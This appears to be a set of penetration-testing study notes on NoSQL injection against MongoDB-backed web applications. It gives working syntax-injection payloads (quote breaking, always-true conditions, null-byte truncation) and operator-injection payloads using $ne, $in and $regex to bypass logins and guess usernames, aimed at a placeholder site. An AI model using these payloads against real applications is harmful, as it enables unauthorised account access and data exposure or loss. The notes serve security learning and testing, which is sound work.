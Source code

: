 # NoSQL injection

## NoSQL databases

* They are designed to handle large volumes of unstructured or semi-structured data.
  * benefits in terms of scalability, flexibility, and performance
* Like SQL databases, users interact with data in NoSQL databases using queries but many NoSQL databases use a wide range of query languages instead of a universal standard like SQL (ex. JSON, XML)

### NoSQL database models <a href="#nosql-database-models" id="nosql-database-models"></a>

* Document stores - These store data in flexible, semi-structured documents. They typically use formats such as JSON, BSON, and XML, and are queried in an API or query language. Examples include MongoDB and Couchbase.
* Key-value stores - These store data in a key-value format. Each data field is associated with a unique key string. Values are retrieved based on the unique key. Examples include Redis and Amazon DynamoDB.
* Wide-column stores - These organize related data into flexible column families rather than traditional rows. Examples include Apache Cassandra and Apache HBase.
* Graph databases - These use nodes to store data entities, and edges to store relationships between entities. Examples include Neo4j and Amazon Neptune.

### Types of NoSQL injection <a href="#types-of-nosql-injection" id="types-of-nosql-injection"></a>

1. Syntax injection - when you can break the NoSQL query syntax, enabling the injection (likeSQLi).
2.  Operator injection - when you can use NoSQL query operators to manipulate queries.



## NoSQL syntax injection <a href="#nosql-syntax-injection" id="nosql-syntax-injection"></a>

* Consider: `https://insecure-website.com/product/lookup?category=fizzy`
* This causes the application to send a JSON query to retrieve relevant products from the `product` collection in the MongoDB database:
  * `this.category == 'fizzy'`
* Inject: `'`
  * `this.category == '''`
    * If this causes a change from the original response, this may indicate that the `'` character has broken the query syntax and caused a syntax error.&#x20;
* Confirm this by submitting a valid query string in the input, ex: `\'`:
  * `this.category == '\''`
    * If this doesn't cause a syntax error, this may mean that the application is vulnerable to an injection attack.

### **Confirming conditional behavior**

* false condition: `' && 0 && 'x`
* true condition: `' && 1 && 'x`&#x20;

```
https://insecure-website.com/product/lookup?category=fizzy'+%26%26+0+%26%26+'x
https://insecure-website.com/product/lookup?category=fizzy'+%26%26+1+%26%26+'x
```

* If the application behaves differently suggests that the false condition impacts the query logic, but the true condition doesn't.



### **Overriding existing conditions**

* Always true: `'||1||'`
* `https://insecure-website.com/product/lookup?category=fizzy%27%7c%7c%31%7c%7c%27`
* `this.category == 'fizzy'||'1'=='1'`
* The modified query returns all items (all the products in any category).
* WARN: If an application uses it when updating or deleting data, for example, this can result in accidental data loss.



* MongoDB may ignore all characters after a null character. This means that any additional conditions on the MongoDB query are ignored.
* `this.category == 'fizzy' && this.released == 1`
* `https://insecure-website.com/product/lookup?category=fizzy'%00`
* `this.category == 'fizzy'\u0000' && this.released == 1`
* If MongoDB ignores all characters after the null character, this removes the requirement for the released field to be set to 1\


## NoSQL operator injection

* Examples of MongoDB query operators
  * `$where` - Matches documents that satisfy a JavaScript expression.
  * `$ne` - Matches all values that are not equal to a specified value.
  * `$in` - Matches all of the values specified in an array.
  * `$regex` - Selects documents where values match a specified regular expression.
* MongoDB Query and Projection Operators: [https://www.mongodb.com/docs/manual/reference/operator/query/](https://www.mongodb.com/docs/manual/reference/operator/query/)



* JSON example:
  * `{"username":"wiener"}` -> `{"username":{"$ne":"invalid"}}`
* URL parameters:
  * `username=wiener` -> `username[$ne]=invalid`
* If this doesn't work, you can try the following (or use Content Type Converter burp exts):
  1. Convert the request method from `GET` to `POST`.
  2. Change the `Content-Type` header to `application/json`.
  3. Add JSON to the message body.
  4. Inject query operators in the JSON.



**Testing**

* To test if you can bypass login try to use a valid credentials (example "bob:pass")
  * `{"username":"bob","password":{"$ne":"invalid"}}`
  * If it works you can try to bypass login with other username\


**Guess with usernames list**

* To target an account, you can construct a payload that includes a known username, or a username that you've guessed:&#x20;
  * `{"username":{"$in":["admin","administrator","superadmin"]},"password":{"$ne":""}}`\


**Guess with regex**

`{"username":{"$regex":"^adm"},"password":{"$ne":""}}`



**Other tests**

* Example:`{"username":"wiener","password":"peter"}`
* `{"username":{"$ne":"invalid"},"password":{"$ne":"invalid"}}`
* This query returns all login credentials where both the username and password are not equal to `invalid`. As a result, you're logged into the application as the first user in the collection.



\
\


\


\


\
\


\


\


\


\


\


\


\
